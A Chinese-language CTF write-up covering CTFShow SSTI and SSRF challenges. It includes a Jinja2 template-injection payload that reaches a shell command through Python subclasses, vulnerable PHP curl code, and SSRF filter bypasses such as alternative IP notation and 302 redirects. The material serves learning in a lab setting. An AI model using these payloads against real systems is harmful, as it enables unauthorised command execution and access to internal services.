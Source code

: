 # 2024-03-12

## CTFShow - web361 - SSTI

对应的请求链接为:

```url
http://xxxx.challenge.ctf.show/?name=123
```

首先知道了这道题是考 SSTI , 我直接就使用 SSTI 的决策树进行操作

```mermaid
flowchart LR
	A(#123;#123;7*7#125;#125;  显示 49)
    B(#123;#123;7*'7'#125;#125; 显示 7777777)
    C(基于 B 的显示确定了模板为 Tornado  Jinja2)
    D(最终确定为 Jinja2)
    A --> |确定存在 SSTI 漏洞|B --> C --> D
	
```

![image-20240312175931315](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240312-175932.png)

## CTFShow - web362 -SSTI

对应的请求链接为:

```url
http://xxxx.challenge.ctf.show/?name=123
```

题目中告知我开始进行了过滤, 随后我进行了暴力测试

![image-20240312180603838](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240312-180604.png)

过滤 2、3, 随后继续进行测试, 发现和 web361 一样, 没什么说的

## CTFShow - web363 -SSTI

进行扫描发现过滤 `'`  `"`

![image-20240312181928485](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240312-181929.png)

随后进行相关查找, 搜索对应的 ByPass 手段

```
?name={{().__class__.__mro__[1].__subclasses__()[407](request.args.a,shell=True,stdout=-1).communicate()[0]}}&a=cat /flag
```

## CTFShow - web351 - SSRF

```php
<?php
    error_reporting(0);
    highlight_file(__FILE__);
    $url=$_POST['url'];
    $ch=curl_init($url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    $result=curl_exec($ch);
    curl_close($ch);
    echo ($result);
?>
```

使用 PHP 伪协议进行利用

![image-20240312182744251](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240312-182745.png)

## CTFShow - web352/web353 - SSRF

> 一样的 Payload 没什么意思

```php
<?php
    error_reporting(0);
    highlight_file(__FILE__);
    $url=$_POST['url'];
    $x=parse_url($url);
    if($x['scheme']==='http'||$x['scheme']==='https'){
        if(!preg_match('/localhost|127.0.0/')){
            $ch=curl_init($url);
            curl_setopt($ch, CURLOPT_HEADER, 0);
            curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
            $result=curl_exec($ch);
            curl_close($ch);
            echo ($result);
        }else{
            die('hacker');
    	}
    }else{
        die('hacker');
    }
?>
```

限制了开头必须为 `http` , 本来还想怎么绕过, 但是看这个样子估计是考察 IP 地址的不同写法

![image-20240312183741868](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240312-183742.png)



## CTFShow - web354 - SSRF

```php
<?php
	.....
    if($x['scheme']==='http'||$x['scheme']==='https'){
        if(!preg_match('/localhost|1|0|。/i', $url))
	......
?>
```

可以看到过滤更多了, 这里基本的手段就已经没用了, 改为使用 302 跳转的手法

```
spoofed.burpcollaborator.net = 127.0.0.1
```

![image-20240312184712346](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240312-184713.png)

## CTFShow - web355 - SSRF

```php
<?php
	.....
    if($x['scheme']==='http'||$x['scheme']==='https'){
        $host=$x['host'];
			if((strlen($host)<=5)){
	......
?>
```

改为限制 `host`  的长度, 这里可以使用一些 302 跳转, 当然也可以使用更换IP 地址写法

![image-20240312185013098](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240312-185014.png)

## HackmyVM - RUN

- [RUN](https://www.yuque.com/gulujili/ctf/carz3f86fxygcwnv)